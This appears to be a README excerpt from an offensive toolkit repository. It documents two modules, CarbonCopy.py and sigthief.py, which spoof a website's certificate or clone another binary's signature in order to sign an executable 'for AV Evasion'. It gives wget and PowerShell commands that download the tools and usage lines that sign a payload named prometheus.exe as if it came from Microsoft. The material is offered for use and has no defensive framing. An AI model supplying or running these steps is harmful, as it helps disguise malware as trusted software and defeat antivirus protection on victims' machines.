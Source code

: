## Module Name
   <b><i>CarbonCopy.py</i></b>

|Script Name|Description|Privileges|Notes|
|---|---|---|---|
|CarbonCopy|A tool which creates a spoofed certificate of any online website<br />and signs an Executable for AV Evasion. Works for both Windows and Linux|User Land|To be executed under Linux|

```shell
wget https://raw.githubusercontent.com/r00t-3xp10it/redpill/main/lib/Sign-Executables/CarbonCopy.py -O CarbonCopy.py
```

**prerequisites:**
```shell 
apt-get install osslsigncode
pip3 install pyopenssl
```

```python   
python3 CarbonCopy.py www.microsoft.com 443 prometheus.exe signed-prometheus.exe
```

<br />

## Module Name
   <b><i>sigthief.py</i></b>

|Script Name|Description|Privileges|Notes|
|---|---|---|---|
|sigthief|A tool to sign an Executable for AV Evasion.<br />It clones signcheck.exe to sign the new binary|User Land|Dependencies: python3|

```powershell
iwr -uri "https://raw.githubusercontent.com/r00t-3xp10it/redpill/main/lib/Sign-Executables/sigthief.py" -OutFile "sigthief.py"
iwr -uri "https://raw.githubusercontent.com/r00t-3xp10it/redpill/main/lib/Sign-Executables/signcheck.exe" -OutFile "signcheck.exe"
```

```python   
python Sigthief.py -i "sigcheck.exe" -t "prometheus.exe" -o "signed-prometheus.exe"
```
